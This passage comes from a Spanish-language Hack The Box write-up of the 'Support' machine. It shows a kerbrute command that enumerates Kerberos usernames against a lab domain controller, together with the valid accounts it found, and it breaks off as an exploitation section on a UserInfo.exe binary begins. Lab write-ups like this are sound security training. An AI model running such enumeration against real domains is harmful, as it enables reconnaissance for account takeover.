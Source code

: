 
Debemos específicar **el tipo de ataque, el dominio, el dc (IP) y el wordlists**, probemoslo:
```bash
./kerbrute_linux_amd64 userenum -d support.htb --dc 10.10.11.174 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/27/24 - Ronnie Flathers @ropnop

2024/09/27 12:38:42 >  Using KDC(s):
2024/09/27 12:38:42 >   10.10.11.174:88
2024/09/27 12:38:45 >  [+] VALID USERNAME:       support@support.htb
2024/09/27 12:38:47 >  [+] VALID USERNAME:       guest@support.htb
2024/09/27 12:38:58 >  [+] VALID USERNAME:       administrator@support.htb
2024/09/27 12:40:41 >  [+] VALID USERNAME:       Guest@support.htb
2024/09/27 12:40:42 >  [+] VALID USERNAME:       Administrator@support.htb
2024/09/27 12:44:32 >  [+] VALID USERNAME:       management@support.htb
2024/09/27 12:45:07 >  [+] VALID USERNAME:       Support@support.htb
C^
```
Detenemos la herramienta porque ya encontró varios usuarios, entre ellos el usuario **Support@support.htb** que puede ser uno de los que vayamos a usar más adelante.

Por ahora, es todo lo que podemos hacer aquí.

Vayamos a probar el binario `UserInfo.exe` que encontramos en una **máquina Windows**.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="debugging">Probando Binario en Máquina Windows y Aplicando Debbuging con DNSpy</h2>

<br>

<h3 id="binario">Probando Binario en Máquina Windows</h3>

Enciende una **máquina Windows 10**, envía el ZIP para descomprimirlo ahí y juega un poco con el binario `UserInfo.exe`.

<p align="center">